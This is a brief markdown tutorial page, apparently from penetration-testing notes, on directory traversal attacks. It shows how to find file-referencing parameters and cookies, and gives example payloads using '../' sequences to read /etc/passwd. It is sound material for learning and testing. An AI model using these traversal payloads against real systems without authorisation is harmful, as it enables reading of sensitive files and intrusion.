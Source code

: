 # Directory Traversal

> Directory Traversal aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system.

## Identifying Vulnerability

We can identify this type of vulnerability by inspecting the URL query strings or the body in search of values that reference files. Example:

```bash
.php?file=$FILE
.cgi?home=$FILE
.jsp?item=$FILE
```

Cookies can also be used  by the web application for the dynamic generation of pages or templates:

```bash
Cookie: ID=d9ccd3f4f9f18cc1:.....TEMPLATE=$TEMPLATE
Cookie: USER=1826cc8f:PSTYLE=$FILE
```
_____

## Exploiting Vulnerability

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

```bash
#Parameter:
.php?file=../../../../etc/passwd
#Cookie:
Cookie: USER=24dedbeef44:PSTYLE=../../../../etc/passwd
```
